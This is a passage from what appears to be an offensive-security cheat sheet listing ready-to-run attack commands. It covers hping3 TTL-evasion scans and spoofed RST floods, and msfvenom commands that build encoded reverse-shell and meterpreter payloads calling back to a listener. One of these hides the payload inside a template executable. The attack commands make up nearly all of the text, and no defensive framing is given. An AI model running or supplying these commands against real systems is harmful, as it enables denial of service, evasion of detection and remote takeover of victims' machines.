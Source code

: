 
## 16. Time-to-Live Attack - Hping3

```bash
# TTL manipulation
hping3 -t 1 target.com

# Trace with specific TTL
hping3 -t 5 -c 1 target.com

# TTL evasion scan
for ttl in {1..10}; do hping3 -t $ttl -c 1 -S -p 80 target.com; done

# Low TTL fragmented packets
hping3 -t 2 -f target.com
```

---

## 17. Invalid RST Packet - Hping3

```bash
# Send RST with wrong sequence
hping3 -R -s 12345 -p 80 target.com

# RST flood with random sequence
hping3 -R --rand-source -p 80 --flood target.com

# Invalid RST with data
hping3 -R -d 100 -p 80 target.com

# RST with URG flag
hping3 -R -U -p 80 target.com
```

---

## 18. Polymorphic Shellcode - Metasploit

```bash
# Generate polymorphic payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o polymorphic.exe

# Multiple encoding iterations
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f elf -o encoded_shell

# Custom template with encoding
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -x template.exe -k -e x86/shikata_ga_nai -i 3 -f exe -o final.exe
```

---